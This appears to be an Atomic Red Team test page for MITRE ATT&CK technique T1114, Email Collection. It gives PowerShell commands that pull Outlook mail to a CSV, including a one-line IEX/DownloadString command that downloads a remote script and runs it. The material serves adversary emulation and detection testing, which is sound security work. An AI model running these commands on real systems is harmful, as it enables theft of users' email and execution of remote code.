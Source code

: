 # T1114 - Email Collection
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1114)
<blockquote>Adversaries may target user email to collect sensitive information from a target.

Files containing email data can be acquired from a user's system, such as Outlook storage or cache files .pst and .ost.

Adversaries may leverage a user's credentials and interact directly with the Exchange server to acquire information from within a network.

Some adversaries may acquire user credentials and access externally facing webmail applications, such as Outlook Web Access.</blockquote>

## Atomic Tests

- [Atomic Test #1 - T1114 Email Collection with PowerShell](#atomic-test-1---t1114-email-collection-with-powershell)


<br/>

## Atomic Test #1 - T1114 Email Collection with PowerShell
Search through local Outlook installation, extract mail, compress the contents, and saves everything to a directory for later exfiltration.

**Supported Platforms:** Windows


#### Run it with `command_prompt`!
```
Display email contents in the terminal
  PS C:\> .\Get-Inbox.ps1

Write emails out to a CSV
  PS C:\> .\Get-Inbox.ps1 -file "mail.csv"

Download and Execute
  "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/cvt111/atomic-red-team/master/atomics/T1114/Get-Inbox.ps1')"
```
<br/>
